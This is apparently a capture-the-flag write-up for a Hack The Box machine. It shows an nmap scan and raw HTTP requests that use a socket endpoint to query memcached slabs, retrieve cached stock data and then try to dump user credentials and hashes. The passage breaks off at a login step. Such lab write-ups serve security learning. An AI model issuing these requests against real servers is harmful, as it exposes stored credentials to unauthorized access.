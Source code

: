 ```nmap -sC -sV -oA nmap/dab 10.10.10.86```
explore slab 16

```GET /socket?port=11211&cmd=stats+cachedump+16+0 HTTP/1.1```

*the "+0” returns the maximum number of results which can be changed.*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549219366715_image.png)


exploring the stock

```GET /socket?port=11211&cmd=get+stock HTTP/1.1```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549219486031_image.png)


*returns “END” or no output.*

however if this information was returned from memcache it would return values. To continue we would need to refresh page to switch from MySQL to the memcache and quicky run the “get+stock” command.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549219587063_image.png)


*returns the actual stock values within memcache.*

Continue to explore slab 26

    GET /socket?port=11211&cmd=stats+cachedump+26+0 HTTP/1.1
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549219683053_image.png)


*returned item is called “users”*

Try to query the users with:

```GET /socket?port=11211&cmd=get+users HTTP/1.1```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549219819469_image.png)


*returns “END” or no output - quickly refresh page and run command again.*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549219905281_image.png)


*returns no users again because we did not query the user table to which we would need to logout and login for that table to accessed then parsed into the memcache.*

# ENUMERATE USERS/HASHES

logout

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549219972750_image.png)


login

```user: admin```
```
